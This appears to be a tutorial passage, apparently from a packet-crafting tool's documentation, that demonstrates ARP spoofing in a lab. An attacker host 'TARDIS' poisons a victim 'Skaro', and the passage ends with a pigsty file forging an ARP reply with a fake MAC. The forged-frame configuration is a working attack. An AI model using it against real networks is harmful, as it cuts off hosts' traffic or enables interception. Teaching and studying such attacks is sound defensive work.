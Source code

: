 Did you see the shy ``Host B`` reply lost in the sea of replies from ``Host H``???

Here is the idea. The art of deceiving.

>"Repeat a lie a thousand times and it becomes the truth."

Unfortunately the ``ARP`` protocol implements this World *modus operandi*. In this case I would say that ``ARP`` is ``World compliant``.

## Making your little pig become a liar

From now on I will assume that you know details about the ``ARP`` protocol.

For this part I will use the following network setup:

- ``TARDIS`` will be the attacker host name.
- ``Skaro`` will be the attacked host name.

Some facts about ``TARDIS``:

1. it has the IP address ``192.30.70.3`` and uses the interface ``eth1``.
2. it has the MAC address ``08:00:27:c5:75:9c``.

Some facts about ``Skaro``:

1. it has the IP address ``192.30.70.10``.
2. it has the MAC address ``08:00:27:00:80:ad``.

What will be done is deceive ``Skaro`` about the ``TARDIS`` MAC address in order to impede any Skaro's packet arriving.

So let's try to ping ``TARDIS`` from ``Skaro``:

```
C:\Users\davros>ping 192.30.70.3
Reply from 192.30.70.3: bytes=32 time<1ms TTL=64
Reply from 192.30.70.3: bytes=32 time<1ms TTL=64
Reply from 192.30.70.3: bytes=32 time<1ms TTL=64
Reply from 192.30.70.3: bytes=32 time<1ms TTL=64
Reply from 192.30.70.3: bytes=32 time<1ms TTL=64
...
```

Ok, the ``TARDIS`` is reachable... Still in ``Skaro`` let's see the ``TARDIS`` MAC address:

```
C:\Users\davros>arp -a
(...)
Interface: 192.30.70.10 --- 0x36
IP address             Physical address        Type
192.30.70.3            08-00-27-c5-75-9c       Dynamic
(...)
```

Yes as we know the MAC address listed by ``arp -a`` is the real MAC of ``TARDIS``.

Now in ``TARDIS`` let's create the following ``pigsty`` file:

```
[
    # "force-field.pigsty"
    arp.hwtype = 0x1,
    arp.ptype = 0x0800,
    arp.hwlen = 0x6,
    arp.plen = 0x4,
    arp.opcode = 0x2,
    arp.hwsrc = "00:de:ad:be:ef:00",
    arp.psrc = 192.30.70.3,
    arp.hwdst = "08:00:27:00:80:ad",
    arp.pdst = "192.30.70.10",
    signature = "TARDIS force field"
]
```